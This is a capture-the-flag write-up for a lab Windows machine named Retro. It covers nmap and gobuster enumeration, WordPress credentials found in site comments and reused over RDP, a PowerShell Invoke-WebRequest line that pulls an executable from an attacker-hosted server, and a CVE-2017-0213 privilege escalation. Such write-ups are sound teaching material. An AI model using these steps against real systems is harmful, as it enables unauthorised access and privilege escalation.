 ## nmap

```bash
Nmap scan report for 10.10.116.78
Host is up (0.17s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: IIS Windows Server
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: RETROWEB
|   NetBIOS_Domain_Name: RETROWEB
|   NetBIOS_Computer_Name: RETROWEB
|   DNS_Domain_Name: RetroWeb
|   DNS_Computer_Name: RetroWeb
|   Product_Version: 10.0.14393
|_  System_Time: 2022-06-28T08:49:47+00:00
|_ssl-date: 2022-06-28T08:49:50+00:00; +10m03s from scanner time.
| ssl-cert: Subject: commonName=RetroWeb
| Not valid before: 2022-06-27T08:49:02
|_Not valid after:  2022-12-27T08:49:02
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
|_clock-skew: mean: 10m02s, deviation: 0s, median: 10m02s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.23 seconds

```

This is a **windows box** and Two ports are open port `80 http and port `3389 rdp`

**On port 80**

![image-20220628150527940](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628150527940.png)

After reading wade comments and looking the website. It is running the **WordPress** so this is theonw way to find out  

and the other way is running the gobuster.

## Gobuster

```bash
/retro                (Status: 301) [Size: 149] [--> http://10.10.116.78/retro/]
/Retro                (Status: 301) [Size: 149] [--> http://10.10.116.78/Retro/]
```

Finding more directory in **Retro/**

```bash
/wp-content           (Status: 301) [Size: 160] [--> http://10.10.116.78/retro/wp-content/]
/wp-includes          (Status: 301) [Size: 161] [--> http://10.10.116.78/retro/wp-includes/]
/wp-admin             (Status: 301) [Size: 158] [--> http://10.10.116.78/retro/wp-admin/] 
```

**http://10.10.116.78/retro/wp-login.php**

![image-20220628151452456](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628151452456.png)

The error massage shows *invalid username* . To find the username read the comments to find the username and password.

In this image wen can find the **username** which is **wade**

![image-20220628151830221](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628151830221.png)

And in this image we can find the password **parzival**

![image-20220628152034865](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628152034865.png)

Now login in WordPress  with **wade:parzival**

![image-20220628152309499](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628152309499.png)

Running wpscan there was nothing interesting was found 

After hitting the dead end I focused on Port 3389 rdp and login with the same credential found for WordPress  **wade:parzival** and login successfully .

Found user.txt on the Desktop 

![image-20220628160716450](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628160716450.png)

using **winpeas**

 ```powershell
  Invoke-WebRequest http://10.x.x.x:8000/win.exe -OutFile .\Documents\win.exe
 ```

find a [**CVE-2017–0213**](https://github.com/WindowsExploits/Exploits/tree/master/CVE-2017-0213/Binaries), and decide to use this exploit to escalate our privilege on the box.

![image-20220628172148636](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628172148636.png)

After extracting it we run the .exe file

![image-20220628172407779](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628172407779.png)

![image-20220628172524598](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628172524598.png)

**root flag** is in *administrator/Desktop*

![image-20220628173100846](C:\Users\pro\AppData\Roaming\Typora\typora-user-images\image-20220628173100846.png)